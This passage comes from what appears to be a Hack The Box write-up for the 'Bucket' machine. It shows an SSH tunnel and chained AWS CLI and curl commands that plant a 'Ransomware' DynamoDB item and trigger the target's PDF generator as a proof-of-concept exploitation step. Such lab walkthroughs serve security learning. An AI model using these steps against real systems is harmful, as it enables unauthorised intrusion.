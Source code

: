 For the initial test, as described in AWS documentation in [this link](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html), I've created a script to create the table, include the Ransomware entry and then make the POST call to generate the PDF.

To make it easier this process, which is being executed from the attacker machine, executed the following processes:

- From the attacker machine, created an RSA key (`ssh-keygen`) and associated it with `roy`'s account to prevent asking for password during the process.
- In the attacker machine was also made a port forwarding using SSH, allowing us to call port 8000 locally and this request would be routed to 8000 to bucket, as below

```bash
ssh roy@10.10.10.212 -L 8000:127.0.0.1:8000 
```

![Website 8000/TCP via SSH Tunnel](https://i.imgur.com/tiTjm7I.png)

After some attempts, noticed that, similarly in the beginning while uploading the exploit, the tables and entries created were deleted, preventing us to easily get the content desired. The solution was to chain the commands as made previously processing the request as soon as the resources were available, as well as the file copy later if we had success in the initial call.

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><p>Content</p></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/
```

After a few attempts, successfully retrieved the `result.pdf` file with the content we have passed in the DynamoDB.

```bash
roy@bucket:/var/www/bucket-app/files$ ls -la
total 16
drwxr-x---+ 2 root root 4096 Feb 26 18:51 .
drwxr-x---+ 4 root root 4096 Feb 10 12:29 ..
-rw-r--r--  1 root root   88 Feb 26 18:51 7627.html
-rw-r--r--  1 root root 1870 Feb 26 18:51 result.pdf
```

![Bucket HTB - PoC](https://i.imgur.com/XLxhZ9W.png){: .align-center}
